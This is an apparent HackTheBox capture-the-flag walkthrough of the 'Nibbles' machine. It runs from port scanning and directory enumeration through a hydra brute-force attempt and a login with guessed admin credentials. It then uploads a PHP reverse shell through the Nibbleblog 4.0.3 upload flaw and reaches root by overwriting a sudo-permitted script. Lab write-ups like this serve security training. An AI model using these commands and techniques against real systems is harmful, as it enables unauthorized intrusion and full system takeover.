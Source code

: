 # HackTheBox Nibbles

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.75

[+] Openning ports: 22,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.75 -p22,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 12:13 +07
Nmap scan report for 10.10.10.75
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

### Apache httpd 2.4.18

Checking source code, there is a directory `/nibbleblog/`.

```
┌──(Hades㉿10.10.14.5)-[0.9:30.3]~
└─$ curl http://10.10.10.75/                                                                                                        
<b>Hello world!</b>
<snip>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

List of hidden in the server after `/nibbleblog/` using gobuster

```
┌──(Hades㉿10.10.14.5)-[1.7:51.3]~
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -q
/install.php          (Status: 200) [Size: 78]
/index.php            (Status: 200) [Size: 2986]
/update.php           (Status: 200) [Size: 1622]
/admin.php            (Status: 200) [Size: 1401]
/.htaccess            (Status: 403) [Size: 306] 
/feed.php             (Status: 200) [Size: 300] 
/sitemap.php          (Status: 200) [Size: 401]
```

### Nibbleblog 4.0.3

I go to `http://10.10.10.75/nibbleblog/install.php`, and it shows the `update` link.

![](images/2.png)

Go to `update.php`, I know the server was running Nibbleblog 4.0.3

![](images/3.png)

Find public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[1.7:43.2]~
└─$ searchsploit Nibbleblog 4.0.3 
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Met | php/remote/38489.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Guessable Admin Credential

At the url `http://10.10.10.75/nibbleblog/admin.php`, It is login page for admin.

![](images/4.png)

I try to brute force with hydra but my ip address have been blocked.

```
hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.75 http-post-form '/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password.'
```

![](images/5.png)

Let's try a manual guess with some common credentials and I got the username `admin`, password `nibbles` to login successfully.

![](images/6.png)

### Nibbleblog 4.0.3 Upload

Follow exploit `php/remote/38489.rb` and searching in the internet, I found manual steps [here](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

At [Plugins My image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image), upload file `php-reverse-shell.php`.

![](images/7.png)

Execute file upload and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/payloads/web-shells/php
└─$ curl 10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

At the listener, I have reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/walkthrough/hackthebox/nibbles
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 47294
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 02:47:49 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Privilege Escalation

### Sudo access file overwrite

At home nibbler's folder, I saw a personal.zip file, try to unzip it and read more.

```
nibbler@Nibbles:/home/nibbler$ ls -la
<snip>
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Apr  6 01:12 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

And also, I enum sudo permission execute file `/home/nibbler/personal/stuff/monitor.sh` as root without require password.

```
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Change file `monitor.sh` to spawn bash as root and run it with sudo command.

```
shbbler@Nibbles:/home/nibbler$ echo bash > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
```
